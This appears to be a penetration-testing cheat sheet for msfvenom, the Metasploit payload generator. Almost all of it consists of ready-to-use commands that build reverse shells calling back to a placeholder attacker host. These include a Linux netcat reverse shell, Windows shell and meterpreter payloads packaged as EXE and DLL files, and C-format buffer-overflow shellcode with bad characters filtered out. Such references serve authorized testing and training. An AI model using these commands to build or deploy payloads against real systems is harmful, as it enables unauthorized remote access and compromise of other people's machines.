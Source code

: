 ```yaml
---
title: MSFVENOM
summary: A Metasploit module that generates shellcodes.
description: A Metasploit module that generates shellcodes.
---
```


**[https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)**

## MSFVENOM Basis

Payloads naming convention : \[OS\]/\[arch\]/\[payload\]

 > 
 > **<font color=red>msfvenom --list payloads</font>**</br>
 > List payloads.

## MSFVENOM Linux Reverse Shell


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

## MSFVENOM Windows Reverse Shell


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.

## MSFVENOM Windows Shellcode (Buffer Overflow)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
